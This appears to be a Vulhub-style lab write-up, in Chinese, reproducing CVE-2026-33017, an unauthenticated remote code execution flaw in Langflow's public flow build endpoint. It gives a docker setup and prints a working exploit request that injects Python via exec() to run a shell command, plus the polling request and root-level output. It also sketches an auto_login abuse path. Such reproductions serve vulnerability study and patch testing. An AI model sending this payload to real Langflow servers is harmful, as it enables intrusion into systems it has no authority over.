

# Langflow 公开流程构建接口未授权远程代码执行（CVE-2026-33017）

Langflow 是一个流行的开源 AI 智能体工作流构建工具，提供基于 Python 的 Web 界面，用于可视化地搭建智能体和管道。

Langflow 1.8.2 及更早版本中存在一个严重的未授权远程代码执行漏洞（CVE-2026-33017），并在 1.9.0 版本中修复。`POST /api/v1/build_public_tmp/{flow_id}/flow` 接口原本用于在“可分享 Playground”（公开流程）场景下免认证地运行流程，但它同时接受一个可选的 `data` 参数，该参数会完全替换数据库中保存的流程定义。当提交的流程中包含自定义组件（Custom Component）节点时，Langflow 会在图编译阶段用不带沙箱的 `exec()` 执行其 `code` 字段，且代码中的模块级赋值语句先于任何校验运行。未授权攻击者只需要知道任意一个被标记为 `PUBLIC` 的流程的 UUID（分享出来的 Playground 链接里暴露的就是这个值），就能以服务进程的权限执行任意命令。

参考链接：

- <https://github.com/advisories/GHSA-vwmf-pq79-vjvx>
- <https://www.sonicwall.com/blog/langflow-ai-code-injection-to-rce-flaw>
- <https://github.com/MaxMnMl/langflow-CVE-2026-33017-poc>
- <https://research.jfrog.com/post/langflow-latest-version-was-not-fixed/>

## 环境搭建

执行如下命令启动一个 Langflow 1.8.1 服务器：

```
docker compose up -d
```

该环境模拟了一个真实部署场景：认证已启用（关闭了 `AUTO_LOGIN`），访问 `http://your-ip:7860` 会看到登录页，使用默认凭据 `administrator:vulhub` 即可登录。管理员通过 Playground 功能分享了一个名为 `My Flow` 的流程，UUID 为 `e8b4f8c2-7a1d-4e5f-9b3c-2a6d8f0e1b4a`，受害者在分享 Playground 链接时就会把这个值泄露出去。

## 漏洞复现

拿到了分享流程 UUID 的攻击者（例如从某个公开传播的 Playground 链接中获取）不需要任何账号。向公开构建接口发送请求，请求需要携带任意值的 `client_id` Cookie；`data` 参数中夹带一个自定义组件节点，其 `code` 字段包含一条模块级赋值语句，读取 `id` 命令的输出并在异常中重新抛出，这样命令输出就会回显在构建事件中：

```
POST /api/v1/build_public_tmp/e8b4f8c2-7a1d-4e5f-9b3c-2a6d8f0e1b4a/flow HTTP/1.1
Host: your-ip:7860
Content-Type: application/json
Cookie: client_id=anything

{"data": {"nodes": [{"id": "CustomComponent-pwn", "type": "genericNode", "data": {"id": "CustomComponent-pwn", "type": "CustomComponent", "node": {"template": {"code": {"type": "str", "value": "from lfx.custom import Component\n\n_x = exec(\"raise Exception(__import__('os').popen('id').read())\")\n\nclass Pwn(Component):\n    display_name = \"Pwn\"\n    def build(self) -> None:\n        pass\n"}, "_type": "CustomComponent"}, "base_classes": ["CustomComponent"], "display_name": "Custom Component", "outputs": [{"types": ["CustomComponent"], "name": "Custom Component"}]}}}], "edges": []}}
```


响应会返回一个 `job_id`。接着通过构建事件接口（同样无需认证）以 `event_delivery=polling` 方式轮询结果：

```
GET /api/v1/build_public_tmp/{job_id}/events?event_delivery=polling HTTP/1.1
Host: your-ip:7860
```

响应中的错误事件包含了在容器内执行 `id` 命令的输出，说明任意 Python 代码已经以 Langflow 服务进程的权限运行：

```
{"event": "error", "data": {"text": "Error creating class. Exception(uid=0(root) gid=0(root) groups=0(root)\n).\n", ...}}
```



需要注意的是，关闭 `AUTO_LOGIN` 并不能修复这个漏洞，它只是切断了攻击者自行制造利用前提的一条路。在使用默认配置 `AUTO_LOGIN=true` 的实例上，任何人都可以调用 `GET /api/v1/auto_login` 无凭据获取超级用户令牌，创建自己的公开流程，然后以同样的方式利用该接口，即使目标从未分享过任何流程。正因如此，官方在 1.9.0 版本中的修复方式是移除该接口的 `data` 参数，而不是为接口增加认证。
